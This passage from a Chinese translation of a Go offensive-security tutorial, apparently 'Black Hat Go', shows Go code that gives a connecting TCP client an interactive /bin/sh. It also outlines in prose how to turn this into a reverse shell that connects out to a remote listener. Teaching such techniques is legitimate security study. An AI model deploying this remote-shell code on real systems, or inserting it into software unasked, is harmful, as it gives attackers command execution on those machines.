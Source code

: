 ```go
func Pipe() (*PipeReader, *PipeWriter)
```

使用 PipeReader 和 PipeWriter 来避免必须显示地排空 writer，并且同步连接 stdout 和 TCP链接。再次重写处理函数：

```go
func handle(conn net.Conn) {
    // Explicitly calling /bin/sh and using -i for interactive mode 
    // so that we can use it for stdin and stdout.
    // For Windows use exec.Command("cmd.exe").
    cmd := exec.Command("/bin/sh", "-i")
    // Set stdin to our connection
    rp, wp := io.Pipe()❶
    cmd.Stdin = conn
  ❷ cmd.Stdout = wp 
  ❸ go io.Copy(conn, rp)
    cmd.Run()
    conn.Close() }
```

调用 io.Pipe\(\) 创建了同步连接的 reader 和 writer —— 任何写入到 writer（即 wp ） 的数据都会被 reader \(rp\) 读取。因此，将 writer 赋值给 cmd.Stdout ，然后使用 Copy\(Writer, Reader\) 将 PipeReader 连接到 TCP 的链接。使用 goroutine 防止代码阻塞。命令的任何标准输出都将发送到 writer ，然后通过管道将 reader 的输出传送到TCP的链接。如此以来就优雅了吧？

这样，就从 TCP 等待连接的的角度成功实现了 Netcat 的巨大的安全漏洞。可以使用类似的逻辑来实现从连接的客户端将本地执行文件的 stdout 和 stdin 重定向到远程监听器。详细的细节留给您确定，但可能包括以下内容：

* 通过 net.Dial\(network, address string\) 和远程监听器建立连接。
* 使用 exec.Command\(name string, arg ...string\) 实例化一个 Cmd。
* 将 net.Conn 对象直接赋值给 Stdin 和 Stdout 。
* 运行命令。

至此，监听器应该能收到连接。发送到客户端的任何数据应在客户端上作为 stdin 处理，而在侦听器上接收的任何数据应作为 stdout 处理。该示例的完整代码在 [_https://github.com/blackhat-go/bhg/ch-2/netcat-exec/_](https://github.com/blackhat-go/bhg/ch-2/netcat-exec/)

## 总结

现在，您已经能开发实际的应用，学会了与网络，I/O 和并发相关的Go 的用法，接下来继续创建可用的 HTTP 客户端。

